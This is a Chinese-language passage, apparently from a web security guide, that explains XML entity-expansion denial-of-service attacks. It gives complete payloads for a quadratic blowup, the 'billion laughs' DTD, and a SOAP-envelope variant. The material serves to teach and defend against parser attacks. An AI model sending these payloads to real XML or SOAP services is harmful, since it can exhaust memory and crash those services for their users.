 #### 平方爆炸

**攻击者不是定义多个小的、深度嵌套的实体，而是定义一个非常大的实体并尽可能多地引用它，从而导致平方级扩展（*O(n^2)*）。**

以下攻击的结果将是内存中的 100,000 x 100,000 个字符。

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY A "AAAAA...(100,000个A)...AAAAA">
]>
<root>&A;&A;&A;&A;...(100,000个 &A;)...&A;&A;&A;&A;&A;</root>
```

#### 十亿笑声攻击

**当 XML 解析器尝试解析以下代码中包含的外部实体时，它将导致应用程序开始消耗所有可用内存，直到进程崩溃。**这是一个包含攻击的嵌入式 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 模式的 XML 文档示例：

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>
```

实体 `LOL9` 将被解析为 `LOL8` 中定义的 10 个实体；然后这些实体中的每一个都将在 `LOL7` 中解析，依此类推。最终，解析在此模式中定义的 `3 x 10^9`（3,000,000,000）个实体将影响 CPU 和/或内存，可能导致解析器崩溃。

**简单对象访问协议（[SOAP](https://en.wikipedia.org/wiki/SOAP)）规范完全禁止 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)。这意味着 SOAP 处理器可以拒绝任何包含 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 的 SOAP 消息。尽管有这样的规范，某些 SOAP 实现仍然解析 SOAP 消息中的 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 模式。**

下面的示例说明了解析器未遵循规范的情况，使得在 SOAP 消息中引用 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 成为可能：

```xml
<?XML VERSION="1.0" ENCODING="UTF-8"?>
<!DOCTYPE SOAP-ENV:ENVELOPE [
 <!ELEMENT SOAP-ENV:ENVELOPE ANY>
 <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">
 <SOAP:BODY>
  <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>
```
